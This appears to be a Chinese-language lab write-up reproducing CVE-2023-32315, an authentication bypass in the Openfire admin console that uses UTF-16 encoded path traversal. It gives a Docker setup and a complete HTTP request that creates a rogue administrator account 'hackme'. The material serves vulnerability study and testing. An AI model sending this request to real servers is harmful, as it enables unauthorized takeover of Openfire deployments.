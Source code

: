 # Openfire管理后台认证绕过漏洞（CVE-2023-32315）

Openfire 是根据开放源 Apache 许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

参考文档：

- <https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm>
- <https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w>

## 漏洞环境

执行如下命令启动一个4.7.4版本的Openfire:

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:9090`你将会被强制跳转到登录页面。

## 漏洞复现

十多年前，Openfire管理后台中曾被发现一处路径穿越漏洞，CVE-2008-6508。攻击者可以利用`/setup/setup-/../../[page].jsp`来绕过权限校验并访问任意后台页面。

从那以后，Openfire增加了对于路径穿越问题的防护策略，用以抵御这个漏洞。但是因为后来内置的Web服务器的升级，引入了对UTF-16字符支持的非标准URL，而前面的防护策略并没有考虑到这一点。

这样也导致我们可以使用UTF-16字符来绕过路径穿越的防护，再次复活路径穿越漏洞，`/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp`。

我们可以发送如下数据包，利用该路径穿越漏洞创建一个新的管理员：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken


```

虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为`hackme`：

![](1.png)

之后我们便可以使用这个账号登录管理后台：

![](2.png)
